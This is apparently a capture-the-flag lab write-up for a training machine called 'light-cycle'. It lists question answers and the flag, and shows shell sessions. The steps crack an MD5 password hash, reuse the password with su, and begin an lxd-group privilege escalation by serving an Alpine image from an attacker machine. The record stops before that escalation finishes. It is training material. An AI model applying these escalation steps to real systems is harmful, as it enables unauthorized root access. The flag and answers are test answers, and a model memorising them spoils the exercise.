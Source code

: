 ### Crack the password. What is it?
- **Answer:** @computer@
- **Steps to Reproduce:** 
    - Use [Hashes decrypt](https://hashes.com/en/decrypt/hash)
    - `edc621628f6d19a13a00fd683f5e3ff7:@computer@`

---

### Use su to login to the newly discovered user by exploiting password reuse. 
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/var/www/TheGrid/includes$ id       
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@light-cycle:/var/www/TheGrid/includes$ su flynn
    Password: 
    flynn@light-cycle:/var/www/TheGrid/includes$ id
    uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
    ```
---

### What is the value of the user.txt flag?
- **Answer:** THM{IDENTITY_DISC_RECOGNISED}
- **Steps to Reproduce:** 
    ```bash
    flynn@light-cycle:~$ ls
    user.txt
    flynn@light-cycle:~$ cat user.txt 
    THM{IDENTITY_DISC_RECOGNISED}
    ```
---

### Check the user's groups. Which group can be leveraged to escalate privileges? 
- **Answer:** lxd
- **Steps to Reproduce:** 
    ```bash
    flynn@light-cycle:/var/www/TheGrid/includes$ id
    uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
    ```
---

### Abuse this group to escalate privileges to root.
- **Steps to Reproduce:** 
 - In your attack machine:
    ```bash
    root@kali: git clone https://github.com/lxd-images/alpine-3-7-apache-php5-6
    Cloning into 'alpine-3-7-apache-php5-6'...
    remote: Enumerating objects: 9, done.
    remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 9
    Receiving objects: 100% (9/9), 12.41 MiB | 7.13 MiB/s, done.
    Resolving deltas: 100% (1/1), done.
    root@kali: cd alpine-3-7-apache-php5-6/
    root@kali:~/alpine-3-7-apache-php5-6# ls
    alpine-3-7-apache-php5-6.tar.bz2.000  image.yaml  import.sh  README.md
    root@kali:~/alpine-3-7-apache-php5-6# python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    ```
